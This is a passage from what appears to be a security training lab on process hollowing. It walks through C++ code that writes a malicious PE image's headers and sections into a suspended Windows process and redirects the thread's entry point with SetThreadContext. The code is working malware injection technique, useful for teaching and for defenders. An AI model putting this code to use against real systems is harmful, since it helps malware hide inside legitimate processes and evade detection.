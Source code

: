 Once the memory is allocated, we can write the malicious file to memory. Because we are writing a file, we must first write the PE headers then the PE sections. To write PE headers, we can use `WriteProcessMemory` and the size of headers to determine where to stop.

```
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```

Now we need to write each section. To find the number of sections, we can use  `NumberOfSections` from the NT headers. We can loop through `e_lfanew` and the size of the current header to write each section.

```
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```

It is also possible to use relocation tables to write the file to target memory. This will be discussed in more depth in task 6.

At step five, we can use `SetThreadContext` to change `EAX` to point to the entry point.

```
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);
```
